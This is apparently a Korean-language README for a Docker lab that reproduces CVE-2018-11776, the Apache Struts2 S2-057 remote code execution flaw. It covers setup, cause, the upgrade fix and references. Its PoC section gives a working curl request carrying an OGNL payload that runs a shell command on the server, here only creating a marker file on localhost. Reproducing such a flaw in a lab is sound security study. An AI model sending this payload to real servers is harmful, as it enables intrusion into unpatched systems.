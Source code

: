 # CVE-2018-11776 - Apache Struts2 (S2-057) 취약점 환경 구축
## 1. 취약점 개요
CVE 번호: CVE-2018-11776

유형: 원격 코드 실행 (RCE)

심각도: 9.8 (Critical)

설명: Struts2에서 URL 맵핑 시 입력값 검증이 부족해 OGNL 표현식이 실행되어 임의 코드가 실행될 수 있는 취약점이다.

## 2. 환경 구성 방법
Dockerfile, docker-compose.yml 사용

Struts2 vulnerable app 설치

실행 방법:

docker-compose up --build
브라우저 접속: http://localhost:8080/struts2-showcase

## 3. PoC 방법
curl 명령어로 원격 명령어 실행 시도:

curl "http://localhost:8080/struts2-showcase/${(#a=@java.lang.Runtime@getRuntime().exec('touch /tmp/hacked'))}/actionChain1.action"

컨테이너 접속 후 /tmp/hacked 파일 생성 여부 확인

## 4. 발생 원인
URL 경로의 OGNL 표현식이 서버에서 실행되어 임의 코드 실행이 발생.

## 5. 대응 방안
Struts2 2.5.17 이상으로 업데이트

## 6. 참고 자료
- [Apache 공식 보안 권고 (S2-057)](https://cwiki.apache.org/confluence/display/WW/S2-057)
- [NVD 상세정보 CVE-2018-11776](https://nvd.nist.gov/vuln/detail/CVE-2018-11776)
- [Vulhub Struts2 S2-057 환경 예시](https://github.com/vulhub/vulhub/tree/master/struts2/s2-057)
